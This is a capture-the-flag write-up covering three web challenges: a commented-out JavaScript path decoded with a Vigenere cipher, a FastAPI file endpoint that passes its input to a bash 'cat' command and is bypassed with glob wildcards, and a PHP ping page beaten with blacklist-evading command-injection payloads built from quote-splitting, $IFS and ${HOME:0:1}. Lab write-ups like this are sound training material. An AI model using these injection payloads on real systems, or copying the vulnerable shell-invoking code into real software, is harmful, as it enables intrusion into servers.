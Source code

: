 ***
# Table of Contents
- [Table of Contents](#table-of-contents)
    - [power of js](#power-of-js)
    - [Imagery](#imagery)
    - [Welcome to admin portal](#welcome-to-admin-portal)

***

### power of js

---

##### Challenge Description
Participants are to recover the flag by taking a look at the Javascript code and find the path.

http://challenge2.lagncrash.com:14000/

---

In the index.js file from http://challenge2.lagncrash.com:14000/ , there is some lines that were commented out

![](assets/comment.png)

Using a Vigenere cipher decode with `johndoe` as the key to decode p1, p2 and p3 we get thisisthemostsecretpagethatyoucantevenguessla.html

![](assets/pt1.png)
![](assets/pt2.png)
![](assets/pt3.png)

Going to `http://challenge2.lagncrash.com:14000/thisisthemostsecretpagethatyoucantevenguessla.html` we can get the flag `LNC{Cli3nt_sid3_c0ntr0l_bypa55}`

### Imagery

---

##### Challenge Description

Hey I found this cool website. I wonder if they actually hide smth on the website.

http://challenge1.lagncrash.com:18675/

---

Going to the webpage, we see an image. Inspecting the source, it shows that the image is at `/file?name=img/image.jpg`

Goign to `/file`, we can get the source code

```python
from fastapi import FastAPI, HTTPException, Request
from fastapi.responses import HTMLResponse, Response
from user_agents import parse
from os import path
import re
import subprocess

app = FastAPI()

def check_request(request):
    user_agent = None
    for header in request['headers']:
        if header[0] == b'user-agent':
            user_agent = header[1].decode()

    if not user_agent:
        return False
        
    user_agent = parse(user_agent)
    if user_agent.is_bot:
        return False
    
    return True

@app.get('/', response_class=HTMLResponse)
async def index(request: Request):
    if not check_request(request):
        raise HTTPException(400, 'Malicious request received!')

    with open('index.html', 'r') as file:
        html = file.read()
        return HTMLResponse(html)

allowed_chars = re.compile(r'^[a-zA-Z0-9\?/\.]*$')
def check_malicious_filename(name):
    if not allowed_chars.match(name):
        print("yessssssssssssss")
        return True

    if 'etc' in name or 'tmp' in name or 'flag.txt' in name:
        return True
    return path.isabs(name)

@app.get('/file')
async def get_file(request: Request, name='main.py'):
    if not check_request(request):
        raise HTTPException(400, 'Malicious request received!')

    if check_malicious_filename(name):
        raise HTTPException(400, 'Malicious request received')
    
    try:
        process = subprocess.check_output(['/bin/bash',"-c", "cat " + name])
    except subprocess.CalledProcessError:
        raise HTTPException(400, 'Malicious request received')

    return Response(process)
```

Bypass the regular expression check using ?
Going to `/file?name=????.???`, we can get the flag `LNC{R3T4ArD_IM4G3S}`

### Welcome to admin portal

---

##### Challenge Description

Participants are to recover the flag by exploiting a remote command execution vulnerability. Some of the more common special characters and commands are blacklisted ... at least thats what the developer thinks :)

http://challenge1.lagncrash.com:12860/

Going to the url, we see that it accepts an IP address and pings it
![](assets/site.png)

Adding '' in commands we can execute commands

Example: `127.0.0.1;l''s`
![](assets/ls.png)


when trying to running `;ca''t index.php`, it did not return any value
After researching, we found that we could use `$IFS` for space
we tried `;ca''t$IFSindex.php` but it did not return any output

we used `;pw''d;` to find out which directory we are at, it returned `/var/www/html` 

After trying `;ca''t$(IFS)/var/www/html/index.php` and did not return any output, we researched more to find that we could replace / with `${HOME:0:1}`

After running `;ca''t$IFS${HOME:0:1}var${HOME:0:1}www${HOME:0:1}html${HOME:0:1}index.php`, we could get the page source code
```php
<?php 
    if(isset($_POST["ip"])){
        $input = $_POST["ip"];
        echo "<hr /><br />";

    #remove most of the special characters
    $blacklist = array(" ","&","|","@","%","^","~","`","<",">",",","\\","/");
    $input = str_replace($blacklist,"", $input);

    #remove some of the common commands that are used
    $blacklist = array("ls","cat","less","tail","more","whoami","pwd","busybox","echo");
    $input = str_replace($blacklist,"", $input);

       $output = shell_exec("ping -c 1 ".$input);

    if(isset($_GET["debug"]) == true){
        echo "<div>ping -c 1 ".$input."</div>";
    }

    echo "<pre>".$output."</pre>";

    #Great! Now try finding the secret file 
    }
?>
```

After running `127.0.0.1;l''s$IFS-la` we can list the current directory
![](assets/cdir.png)

Seeing that there is a file named `...`, we can cat it by using `;ca''t$IFS${HOME:0:1}var${HOME:0:1}www${HOME:0:1}html${HOME:0:1}...` to get the flag `LNC{Wh1t3_0v3r_bl4ck}`

![](assets/flag.png)
